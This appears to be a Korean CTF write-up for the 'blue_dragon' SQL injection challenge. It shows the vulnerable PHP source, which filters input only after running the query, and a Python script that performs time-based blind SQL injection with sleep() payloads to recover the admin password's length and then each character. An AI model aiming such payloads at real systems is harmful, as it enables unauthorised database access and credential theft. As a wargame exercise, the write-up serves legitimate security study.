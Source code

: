 ## Blue_dragon
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```
### exploit
이전 문제들과 비슷한 유형이다. 하지만 쿼리를 질의하고 나서 필터링을 하기 때문에 Timebased SQL 취약점이 발생한다.<br>
sleep함수를 사용해서 preg_match가 실행되기 전에 지연시킨다.
```python
import requests
import time

url = "https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php"

cookie = {'PHPSESSID' : 'ovbfdu14h0vaeamskdlr10nttu'}

for i in range(100):
    print(i)
    start = time.time()
    param = {'pw': f"' or if(id='admin' and length(pw)={i},sleep(2),0)-- -"}
    res = requests.get(url=url, params=param, cookies=cookie)
    end = time.time()
    if end - start >= 2:
        print(i)
        break

length = 8
password = ''
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    start = time.time()
    param = {'pw': f"' or id='admin' and if(ord(substr(pw,{str(len)},1))={str(pw)},sleep(3),0)#"}
    res = requests.get(url=url, params=param, cookies=cookie)
    end = time.time()
    if end - start >= 2:
      password += chr(pw)
      print(password)
      break
```
<br>
